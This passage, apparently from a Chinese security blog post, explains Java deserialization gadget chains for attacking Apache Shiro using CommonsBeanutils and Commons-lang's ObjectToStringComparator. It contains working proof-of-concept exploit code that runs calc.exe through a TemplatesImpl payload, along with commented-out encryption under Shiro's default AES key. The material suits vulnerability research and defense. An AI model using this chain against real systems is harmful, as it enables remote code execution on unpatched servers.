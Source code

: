 ```
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

        public Evils() throws Exception {
            System.out.println("Hello TemplatesImpl");
            Runtime.getRuntime().exec("calc.exe");
        }
    }

    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(Evils.class.getName());
        byte[] payloads = new CommonsBeanutilsPropertySource().getPayload(clazz.toBytecode());
        ByteArrayInputStream bais = new ByteArrayInputStream(payloads);
//        System.out.println(bais.read());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();


//        AesCipherService aes = new AesCipherService();
//        byte[] key = java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
//
//        ByteSource ciphertext = aes.encrypt(payloads, key);
//        System.out.printf(ciphertext.toString());
    }

}
```



----

### ObjectToStringComparator

`ObjectToStringComparator`是apache属于下的`Commons-lang`组件，也是一个比较典型的组件。

![image-20220221183227584](https://cdn.jsdelivr.net/gh/SummerSec/Images/27u3227ec27u3227ec.png)

该类的Compare方法参数是Object类型，比较简单。

直接贴出代码：

```
package summersec.shirodemo.Payload;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.commons.lang3.compare.ObjectToStringComparator;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;


```
